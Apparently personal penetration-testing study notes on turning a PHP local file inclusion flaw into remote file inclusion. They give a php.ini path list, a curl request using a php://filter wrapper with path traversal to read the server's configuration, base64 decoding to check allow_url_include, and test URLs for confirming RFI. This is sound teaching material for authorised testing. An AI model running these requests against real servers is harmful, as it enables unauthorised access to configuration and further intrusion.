

1. Verify RFI
Any remote URL inclusion in PHP would require the
allow_url_include setting to be enabled.
1. Read PHP Configurations through “PHP Source Code Disclosure”NOTE: if the WebApp is hosted on Windows Server we can try directly a
RCE through RFI with SMB Server Configuration wordlist for linux:
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux that include also PHP configurations file.
• To get only php.ini files:
wget https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux; cat LFI-WordList-Linux | grep 'php.ini'
/apache/php/php.ini
/bin/php.ini
/etc/httpd/php.ini
/etc/php.ini
/etc/php/apache/php.ini
/etc/php/apache2/php.ini
/etc/php/cgi/php.ini
/etc/php/php.ini
/etc/php/php4/php.ini
/etc/php4.4/fcgi/php.ini
/etc/php4/apache/php.ini
/etc/php4/apache2/php.ini
/etc/php4/cgi/php.ini
/etc/php5/apache/php.ini
/etc/php5/apache2/php.ini
/etc/php5/cgi/php.ini
/home/bin/stable/apache/php.ini
/home2/bin/stable/apache/php.ini
/NetServer/bin/stable/apache/php.ini
/opt/xampp/etc/php.ini
/php/php.ini
/php4/php.ini
/php5/php.ini
/usr/lib/php.ini
/usr/lib/php/php.ini
/usr/local/apache/conf/php.ini
/usr/local/etc/php.ini
/usr/local/lib/php.ini
/usr/local/php/lib/php.ini
/usr/local/php4/lib/php.ini
/usr/local/php5/lib/php.ini
/usr/local/psa/admin/conf/php.ini
/usr/local/Zend/etc/php.ini
/var/local/www/conf/php.ini
/web/conf/php.ini
• PHP configuration file can also be found in:
◇ Apache → /etc/php/X.Y/apache2/php.ini
◇ Nginx → /etc/php/X.Y/fpm/php.ini
*where X.Y is the PHP version of the webapp
where the PHP version available are:
8.1
8.0
7.4
7.3
7.2
7.1
7.0
5.6
5.5
5.4
5.3
5.2
5.1
5.0
4.4
4.3
4.2
4.1
4.0
Since .ini files are similar to PHP files we can use the same method used in
PHP Source Code Disclosure$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
Once we have the base64 encoded string, we can decode it and
grep for
allow_url_include (NOT enabled by default) to see its value that to work must be set to “
On”
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
or
cat encoded.txt | base64 -d | grep -E 'allow_url_include|expect'
allow_url_include = On 
If the option
allow_url_include (NOT enabled by default) is enabled(On),
we can use the Input wrapper.
Many web applications rely on
allow_url_include to function properly, like:
◇ WordPress plugins
◇ Wordpress themes
◇ ....
2. The point 1 is not always reliableEven if this setting is enabled, the vulnerable function may not allow remote URL inclusion.
As we can see from table in the Cheat Sheet →
Vulnerable Functions Table, not all LFI vulnerable functions are vulnerable to RFI.
A more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to
simply try and include a URL, and see if we can get its content.
◇ inlude a page on the host or in the internal network
First, we should always start by trying to include a local URL to ensure our attempt does not get blocked by a firewall or other security measures.
example: index.php?lnguage=
http://127.0.0.1:80/index.php Note: is not ideal include the vulnerable page itself (int his case index.php) as this may cause a recursive inclusion loop and cause a DoS to the back-end server.
- If the
Index page get include in the vulnerable section of the actual page, the page is vulnerable to RFI
- If the
Index page get execute and rendered as PHP instead showing the source code, means that the vulnerable function also allow PHP execution
Note: If we specify also the
port (example: 80) there is also the possibility to access to other pages/resources on other
ports (example: 8080) otherwise restricted
◇ include a website on the internet
example: index.php?lnguage=
http://www.google.com If it is vulnerable, the HTML code of google.com should be injected in the vulnerable web page.